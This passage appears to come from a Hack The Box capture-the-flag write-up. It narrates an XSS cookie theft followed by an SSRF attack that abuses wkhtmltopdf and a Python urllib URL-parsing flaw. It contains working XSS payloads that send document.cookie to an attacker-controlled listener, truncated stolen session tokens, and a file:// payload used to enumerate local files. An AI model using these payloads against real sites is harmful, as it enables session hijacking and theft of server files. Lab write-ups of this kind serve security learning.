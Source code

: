 I got a request from the server, so I moved on to stealing the cookie.

```
<img src=x onerror="fetch('http://10.10.14.8:8000/?c='+btoa(/document.cookie))">
```

It didn't work, so I tried URL encoding it.

```
<img+src%3dx+onerror%3dfetch('http%3a//10.10.14.2%3a8000%3fc%3d'%2bbtoa(document.cookie))>
```

Success! 

Adam Token:
```
user_data=eyJ1c2VyX2lkIjogMiwgInVzZ...............................
```

Now I can access the dashboard page. My user can create, elevate, delete, and complete reports. I assume that the admin, or maybe just a higher privileged user, is the one who sees the elevated reports. Sounds interesting. From there I create a report containing a familiar XSS, elevate the priority of the report, start a listener and catch the administrator's cookie. 

Admin Token:
```
user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJ.................................
```

Excellent! I refresh the page with my new cookie, and I'm off to the races.

### SSRF Exploit Using wkhtmltopdf and urllib

The admin has access to some interesting tools. I can create a report of any website I point the site at. I do exactly that by pointing it at my local python server, and get a PDF back on my browser. Neat! I stalled here for a bit, unsure of how this was going to help me. Eventually I remembered that exiftool exists, and got some very good information out of the PDF's metadata.

```
exiftool /home/kali/Downloads/report_31784.pdf 
```

Exiftool reveals that the tool that was used to convert the HTML to a pdf, wkhtmltopdf 0.12.6, contains a server side request forgery vulnerability (SSRF). This is interesting, but we actually can't make use of this SSRF due to the server filtering URL's before sending requests. 

Hack The Box machines don't have access to the internet, so the only things I can point it at are itself and me. It doesn't want to see itself, so I kept making it look at me. I set up a netcat listener and caught the response again, revealing the user agent Python-urllib 3.11. This version has a vulnerability, [CVE-2023-24329](https://pointernull.com/security/python-url-parse-problem.html) , which improperly sanitizes inputs. This allowed me to bypass the server's URL filtering and make use of the SSRF from earlier.

```
report_url=+file%3A%2F%2F§§
```

I used Burp Suite Intruder with a Linux LFI wordlist to enumerate files via this SSRF. I got a ton of information back, but most of it was junk. These few files seemed most interesting to me.
